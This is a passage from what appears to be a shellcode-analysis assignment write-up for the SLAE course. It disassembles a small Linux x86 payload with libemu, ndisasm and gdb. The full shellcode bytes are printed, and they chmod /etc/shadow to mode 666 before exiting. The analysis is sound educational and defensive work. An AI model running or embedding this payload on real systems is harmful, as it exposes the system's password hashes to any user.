 ```term
ERROR  chmod (
) =  -1;
ERROR  exit (
     int status = 4288522;
```

##### Ndisasm

As seen on the shown text, Libemu reports that the chmod syscall is being initialized! Let's take a closer look to the code with ndisasm.

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ echo -ne 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - 
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$
```

Really interesting, according to the man page of chmod, ECX should hold the privileges for the file that will be chmodded. As seen, dword "0x1b6" is being pushed into ECX, which 
in octal means 666! Even more so, we can see EAX performing the syscall in hex, as 0xf in decimal is actually 15, value for the chmod syscall.
Regarding the file itself, let's have a closer look with GDB.

##### GDB

We can easily see the value of the file being altered when the execution is parsed into EAX.

Let's save this into a C file and compile it:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ gcc dissect_1.c -o dissect_1 -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect1$ gdb -q ./dissect_1
```
